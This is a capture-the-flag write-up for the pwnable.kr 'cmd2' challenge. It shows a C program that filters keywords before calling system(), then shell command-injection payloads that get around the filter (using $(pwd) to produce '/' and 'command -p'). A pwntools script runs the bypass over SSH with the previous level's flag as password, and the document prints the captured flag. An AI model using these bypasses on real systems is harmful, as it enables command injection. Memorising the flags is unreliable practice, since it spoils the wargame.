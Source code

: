 # pwnable.kr cmd2 writeup (9 pt)

```
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
```

Let's connect to the target server.

# 0x01 Binary Enumeration

```bash
cmd2@prowl:~$ ls -la
total 40
drwxr-x---   5 root cmd2     4096 Oct 23  2016 .
drwxr-xr-x 116 root root     4096 Nov 12 21:34 ..
d---------   2 root root     4096 Jul 14  2015 .bash_history
-r-xr-sr-x   1 root cmd2_pwn 8794 Dec 21  2015 cmd2
-rw-r--r--   1 root root      586 Dec 21  2015 cmd2.c
-r--r-----   1 root cmd2_pwn   30 Jul 14  2015 flag
dr-xr-xr-x   2 root root     4096 Jul 22  2015 .irssi
drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
cmd2@prowl:~$ 
```

Again the same stuff like cmd1, let's analyze the source code.

```C
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

Now more words are blacklisted, we have to find a way to bypass `/`.

# 0x02 Exploitation + PoC

+ 1way We will do a trick, we will move to root directory & then we'll use the command substitution `$()` to execute `pwd` so we will get `/`. 

```bash
cmd2@prowl:~$ ./cmd2 "cd ..; cd ..; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl?g"
cd ..; cd ..; $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl?g
FuN_w1th_5h3ll_v4riabl3s_haha
```

+ 2way Thanks to this [blog](https://www.rootnetsec.com/pwnable.kr-cmd2/) i learnt a second way!

```bash
cmd2@prowl:~$ ./cmd2 "command -p cat fl?g"
command -p cat fl?g
FuN_w1th_5h3ll_v4riabl3s_haha
```

`−p -> Perform the command search using a default value for PATH`

I wrote a simple PoC with pwntools.

```python
#!/usr/bin/env python
from pwn import *

shell = ssh('cmd2', 'pwnable.kr', password='mommy now I get what PATH environment is for :)', port=2222)
sh = shell.run('./cmd2 "command -p cat fl?g"')
sh.recvline() #re-print the cmd
log.success("Flag : " + sh.recvline())
```

Let's fire it up!

```bash
[root@pwn4magic]:~/Desktop# python cmd2.py 
[+] Connecting to pwnable.kr on port 2222: Done
[*] cmd2@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Opening new channel: './cmd2 "command -p cat fl?g"': Done
[+] Flag : FuN_w1th_5h3ll_v4riabl3s_haha
[*] Closed SSH channel with pwnable.kr
```

Flag : `FuN_w1th_5h3ll_v4riabl3s_haha`

-pwn4magic
